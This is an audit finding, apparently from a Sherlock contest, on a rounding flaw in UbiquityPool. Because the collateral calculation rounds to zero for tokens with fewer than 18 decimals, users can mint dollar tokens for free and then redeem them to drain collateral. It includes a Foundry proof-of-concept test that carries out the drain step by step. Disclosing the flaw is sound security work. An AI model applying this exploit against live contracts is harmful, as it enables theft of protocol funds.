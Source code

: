 Mythical Oily Goldfish

high

# Users can mint dollar tokens for free, allowing them to drain protocol's collateral

## Summary

**NB: According to the contest's docs the only ERC20 tokens that'll interact with the protocol are `LUSD` and `DAI`, which are both 18 decimals, but for later when more non-18 decimal tokens are enabled (the current version of the code supports these tokens) it should be handled explicitly.**

Users in `UbiquityPool` can provide an amount of "enabled" collateral and get some dollar token minted for them in return, this is considered enabled if the dollar price is above or equal to a `mintPriceThreshold` that is set by an admin. However, in case some collateral tokens with decimals <18 were enabled in the protocol, users can abuse the `getDollarInCollateral` function to mint some dollar tokens while providing 0 collateral tokens. This allows them later to redeem those dollar tokens and get another type of collateral in return, that way users gain an "illegal" profit.

## Vulnerability Detail

When calling `mintDollar` the protocol calculates the needed collateral that should be transferred from the user using `getDollarInCollateral`, however, in some cases, an example below `getDollarInCollateral` returns 0, allowing users to mint dollar tokens for free.

Assume we have the following:
* `dollarAmount`: 1e11
* `UBIQUITY_POOL_PRICE_PRECISION`: 1e6
* Collateral X having 6 decimals, `poolStorage.missingDecimals[collateralIndex]`: 12
* `collateralPrices[collateralIndex]`: 1e6

`getDollarInCollateral` function will do the following equation `((1 * 10^11) * 10^6) / 10^12 / 10^6` which ends up as `0.1 ~= 0`, allowing users to mint 1e11 dollars for free.

We added a couple of changes to the implementation of `MockERC20`, to be the following:
```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity 0.8.19;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    uint8 internal __decimals;

    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol) {
        __decimals = _decimals;
    }

    function mint(address to, uint256 value) public virtual {
        _mint(to, value);
    }

    function burn(address from, uint256 value) public virtual {
        _burn(from, value);
    }

    function decimals() public view virtual override returns (uint8) {
        return __decimals;
    }
}
```

### POC Test

```solidity
function test_bug_freeDollars() public {
    // A 6 decimals collateral token is added/enabled
    vm.startPrank(admin);
    MockERC20 collateralToken2 = new MockERC20("COLLATERAL2", "CLT2", 6);
    uint256 poolCeiling = 50_000e18;
    ubiquityPoolFacet.addCollateralToken(
        address(collateralToken2),
        address(collateralTokenPriceFeed),
        poolCeiling
    );
    ubiquityPoolFacet.setCollateralChainLinkPriceFeed(
        address(collateralToken2),
        address(collateralTokenPriceFeed),
        1 days
    );
    ubiquityPoolFacet.toggleCollateral(1);
    ubiquityPoolFacet.setFees(1, 10000, 20000);
    ubiquityPoolFacet.setPriceThresholds(1000000, 1000000);
    vm.stopPrank();

    uint256 _100ETH = 100e18;

    // Deposit 100 ETH of the 18 decimals collateral token into the pool
    collateralToken.mint(address(ubiquityPoolFacet), _100ETH);

    // User has 0 collateral2 (6 decimals) and 0 Dollars
    assertEq(collateralToken2.balanceOf(address(user)), 0);
    assertEq(collateralToken.balanceOf(address(user)), _100ETH);
    assertEq(dollarToken.balanceOf(address(user)), 0);

    // User mints 1e11 dollars, while providing collateral2 (6 decimals) as collateralIndex
    vm.prank(user);
    ubiquityPoolFacet.mintDollar(1, 1e11, 0, _100ETH);

    // User dollar balance increases while having 0 collateral2 (6 decimals)
    assertGt(dollarToken.balanceOf(address(user)), 0);

    // User redeems all his dollars for collateral (18 decimals)
    vm.prank(user);
    ubiquityPoolFacet.redeemDollar(0, 1e9, 1);

    vm.roll(3);

    // User collects redemption
    vm.prank(user);
    ubiquityPoolFacet.collectRedemption(0);

    // User collateral (18 decimals) balance increases as he redeemed his "free" dollars
    assertGt(collateralToken.balanceOf(address(user)), _100ETH);
}
```

## Impact

The freely minted dollars can be later redeemed, to receive an amount of collateral, and users can drain the supply of collateral as they didn't provide any while minting.

## Code Snippet

https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L284-L294

## Tool used

Manual Review + vs code

## Recommendation

Refactor the logic that calculates the collateral needed to account for the case when it's equal to zero.
